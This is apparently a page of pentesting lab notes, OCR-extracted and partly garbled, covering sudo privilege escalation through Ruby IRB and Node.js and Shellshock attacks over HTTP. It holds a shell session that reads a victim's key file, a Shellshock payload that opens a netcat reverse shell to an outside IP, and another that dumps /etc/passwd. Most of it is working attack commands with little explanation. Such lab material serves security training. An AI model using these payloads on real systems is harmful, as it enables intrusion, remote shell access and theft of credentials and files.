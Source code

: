 
sudo -u root /usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)'


Once you have the REPL running, you should be able to run commands by using `[COMMAND]` (for example `uname` to run uname).


\
// notice the use of the backtick here
above the thal


pentesterlab@fa311c184b73:~$ sudo -u victim /usr/bin/ruby -e 'require "irb" ; IRB.start(__FILE__)'
irb(main):001:0> uname
NameError: undefined local variable or method `uname' for main:Object
        from (irb):1
        from -e:1:in `<main>'
irb(main):002:0> 'uname'
=> "uname"
irb(main):003:0> `uname`
=> "Linux\n"
irb(main):004:0> `id`
=> "uid=1001(victim) gid=1001(victim) groups=1001(victim)\n"
irb(main):005:0> `cat /home/victim/key.txt`
=> "e4c59ad6-4be7-4bb1-934d-4d087084bed0\n"
irb(main):006:0>


======================
164
exploiting sudo with node [node js]


sudo -u victim /usr/local/bin/node -e 'var exec = require("child_process").exec;
exec("uname", function (error, stdOut, stdErr) {
console.log(stdOut);
});'




======================
shellshock quick test
execute a command


reverse shell
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80




execute a command
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80






